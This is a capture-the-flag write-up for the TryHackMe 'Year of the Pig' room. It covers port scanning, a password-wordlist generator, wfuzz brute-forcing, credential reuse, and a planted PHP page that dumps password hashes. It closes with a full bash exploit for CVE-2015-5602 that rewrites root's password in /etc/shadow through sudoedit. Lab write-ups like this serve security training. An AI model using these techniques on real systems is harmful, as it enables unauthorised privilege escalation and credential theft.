

TryHackMe: Year of the Pig
https://tryhackme.com/room/yearofthepig
Enumeration
Note: I added the IP address to my /etc/hosts file, so that 'yotp' resolves to the target IP
Port scanning
nmap -sV -sC -v -oN top-ports.txt yotp
{kind=link}
We have a web site at port 80 and SSH. Let's dig into the web application. It appears to be a basic blog, authored by air plane enthusiast Marco.
Directory brute forcing
{kind=link}
We have a Admin Panel login page and not much else. Trying to log in we get an interesting message:
{kind=link}
Creating a custom wordlist
Knowing the format of the password, we can take a stab at bruteforcing some login credentials.
Looking at the blog content, it is clear that Marco is obsessed with planes. His favorite is the Savoia S.21. We have a word and two numbers... this could potentially be a password.
{kind=link}
I made a wordlist by making all combinations of savoia, numbers 00-99, and special characters.
I made this list with Savoia having first letter capital, all caps, and all lowercase. This was generated with
the following python script:
import string
important_word = 'Savoia'
for i in range(100):
for sp in string.punctuation:
print(f'{important_word}{str(i).zfill(2)}{sp}')
print(f'{important_word.upper()}{str(i).zfill(2)}{sp}')
print(f'{important_word.lower()}{str(i).zfill(2)}{sp}')
I then used Burp to intercept a login request, and examine it's structure.
Authentication is done by making a POST request to /api/login with the request body being a JSON string holding the username, and md5 encoded password.
{kind=link}
I used wfuzz for bruteforcing the login, since it has the capability to encode passwords (md5 in this case).
 The wfuzz output showed the md5 hash of the correct password. All I had to do was take the md5 hash of each password in the wordlist, and compare it against the known password hash. With this I had a set of login credentials.
{kind=link}
{kind=link}
{kind=link}
Looking around the Admin Panel, I noticed there was another user, curtis, on the web app.
{kind=link}
Credential reuse
I played around with the admin panel for way too long before trying the simple approach: using known credentials in other places. I tried marco's credentials with ssh... ... and it worked! I wish I had tried this first.
{kind=link}
In /home/marco we find the first flag.
This looked like an unusual entry.

Horizontal Escalation
After doing some enumeration as user marco, I noticed a couple things:
- Marco was part of the group
web-developersand could edit/create any pages on the web application. - There was another user on this system, curtis. Curtis was also listed as one of the users under the Admin Panel
So my next goal was to get curtis' credentials for the Admin Panel, with the hope that his credentials are also used
for his ssh login.
To go about this, I took advantage of the fact that marco has control over the web content.
I started digging through files under /var/www/html. I found a .db file called admin.db, however user marco
did not have access to this database directly.
I knew there must be some php code, running as www-data, that had access to the database.
I continued looking through /var/www/html and I found a file, getUsers.php, which had code that made a SQL query looking for users in the database:
{kind=link}
I duplicated this file and saved it as creds.php and modified it as shown below:

This code simply made a SQL query to the database, requesting all username and password fields. Then it echo'd some html containing the retrieved username:password pairs.
With this file saved, I then visited http://yotp/admin/creds.php and got the md5 hash for curtis' password:
{kind=link}
With this hash, I went right to http://crackstation.net and hoped this hash was recognized. Luckily this hash was known by CrackStation!
{kind=link}
With curtis' password for the Admin Panel, I tried it out on ssh, and successfully logged in as curtis!
In /home/curtis we find the second flag.
{kind=link}
Privilege Escalation
Continuing with enumeration as user curtis, I noticed something interesting when running sudo -l:
 This looked like an unusual entry.
This looked like an unusual entry.
I searched for sudoedit vulnerabilites and came across https://www.exploit-db.com/exploits/37710
I looked for some available exploits and I found this https://github.com/t0kx/privesc-CVE-2015-5602.
I reviewed the source code to see how it worked, which I will summarize:
* This exploit can be used when a user can run sudoedit on a file where the filepath contains subsequent wildcards in the path.
* We then create a symlink from /etc/shadow to the sudoeditable file
* We create a simple bash script that uses sed to change the contents of a /etc/shadow file. By changing the entry for user root in /etc/shadow we can change root's password
* We set our EDITOR environment variable to our bash script
* We run sudoedit on our editable file. Since we set the EDITOR variable, sudoedit runs our bash script against the editable file.
* Since we have a symlink between our editable file and /etc/shadow, and since our editable file contains two wildcard characters in the path, we can edit the contents of /etc/shadow to give root a password of our choosing
I made some modifications to the exploit.sh script in order to tailor it to my specific case. Below is my tailored script:
#!/usr/bin/env bash
# CVE-2015-5602 exploit by t0kx
# https://github.com/t0kx/privesc-CVE-2015-5602
export EDITOR="/tmp/edit"
export FOLDER="${RANDOM}"
export PASSWD=$(printf ${RANDOM} \
| md5sum \
| awk '{print $1}')
prepare() {
cat << EOF >> /tmp/edit
pass="$(printf "%q" $(openssl passwd -1 -salt ${RANDOM} ${PASSWD}))"
sed -i -e "s,^root:[^:]+:,root:\${pass}:," \${1}
EOF
}
main() {
printf "[+] CVE-2015-5602 exploit by t0kx\n"
printf "[+] Modify EDITOR...\n"
prepare && chmod +x ${EDITOR}
printf "[+] Change root password to: ${PASSWD}\n"
sudoedit /var/www/html/1/2/config.php
printf "[+] Done\n"
}; main
{kind=link}
After creating the symlink, I ran the script and successfully escalated to root!
{kind=link}